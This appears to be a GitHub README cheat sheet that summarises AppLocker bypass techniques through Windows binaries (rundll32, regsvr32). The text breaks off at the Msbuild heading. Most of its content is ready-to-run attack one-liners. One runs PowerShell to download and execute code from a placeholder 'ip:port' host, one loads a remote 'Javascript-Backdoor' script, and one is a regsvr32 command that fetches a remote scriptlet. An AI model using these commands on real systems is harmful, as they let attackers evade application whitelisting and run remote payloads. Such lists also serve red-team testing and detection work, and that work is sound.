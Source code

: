 # myAPPLockerBypassSummary
Simple APPLocker bypass summary based on the extensive work of @api0cradle

--------------------------------------------------------------------------
 1. Rundll32.exe

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 shell32.dll,Control_RunDLL payload.dll


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: No

Notes:
I only tested on Windows 10 against the default rules, it could work against older Windows versions.

* Links:
  * https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/

--------------------------------------------------------------------------
 2. Regsvr32.exe


regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll


* Requires admin: No
* Windows binary: Yes
* Bypasses AppLocker Default rules: No

Notes:
I only tested on Windows 10 against the default rules, it could work against older Windows versions.

* Links:
  * https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md

--------------------------------------------------------------------------
 3. Msbuild.exe
